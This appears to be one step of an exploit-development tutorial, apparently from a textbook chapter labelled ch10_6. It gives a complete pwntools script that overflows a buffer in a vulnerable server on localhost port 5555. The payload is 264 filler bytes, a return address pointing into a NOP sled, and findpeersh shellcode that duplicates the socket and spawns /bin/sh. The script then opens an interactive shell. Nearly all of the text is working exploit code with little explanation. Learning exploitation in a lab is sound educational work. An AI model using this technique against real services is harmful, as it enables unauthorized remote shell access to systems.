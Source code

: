 1. Run the program below with the correct nop sled (look at Deteremine nop sled address):
```python
#!/usr/bin/env python3
#ch10_6_exploit.py
from pwn import *
context(bits=32, arch='i386')
# Connect to vulnerable ch10_6 server
p = remote('localhost', 5555)
# findpeersh ( dup2(socket) + execve(/bin/sh) ) shellcode
shellcode = asm(shellcraft.findpeersh())
nopsled_address = p32(0xffffd418)
# Craft our payload
payload = b"A"*264
payload += nopsled_address
payload += b"\x90"*32
payload += shellcode
p.sendlineafter(b"Username: ", payload) # Send payload
p.interactive()
```
2. Now run it and get back a shell